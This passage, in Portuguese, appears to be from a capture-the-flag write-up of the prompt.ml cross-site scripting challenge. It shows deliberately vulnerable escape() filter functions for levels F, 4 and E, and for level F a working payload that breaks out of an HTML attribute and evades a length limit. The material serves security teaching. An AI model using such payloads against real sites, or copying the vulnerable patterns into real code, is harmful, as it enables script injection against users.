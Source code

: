 ### Level F

Aqui está o enunciado do nível F:

```
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}        
```

Nesse nível, ele divide cada segmento utilizando o caractere `#`. Além disso, limita a apenas 15 caracteres. A solução desenvolvida foi a seguinte:

`"><script>``#${prompt(1)}#`</script>`

Nesse código, ele insere normalmente o código, porém utilizando `#` para contornar a limitação de 15 caracteres.

[![Print15.png](https://i.postimg.cc/FHHLnB5S/Print15.png)](https://postimg.cc/rK7sDgpy)

### Level 4 (Non-solved)

Aqui está o enunciado do nível 4:

```
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}        
```

Esse exercício está incompleto, pois para resolvê-lo precisaremos inserir informações que correspondam ao URL: https://prompt.ml/js/test.js. Uma solução possível é inserir alguma URL maliciosa, seja ela codificada ou que corresponda exatamente a limitação.

### Level E (Limited)

Aqui está o enunciado do nível E:

```
function escape(input) {
    // I expect this one will have other solutions, so be creative :)
    // mspaint makes all file names in all-caps :(
    // too lazy to convert them back in lower case
    // sample input: prompt.jpg => PROMPT.JPG
    input = input.toUpperCase();
    // only allows images loaded from own host or data URI scheme
    input = input.replace(/\/\/|\w+:/g, 'data:');
    // miscellaneous filtering
    input = input.replace(/[\\&+%\s]|vbs/gi, '_');

    return '<img src="' + input + '">';
```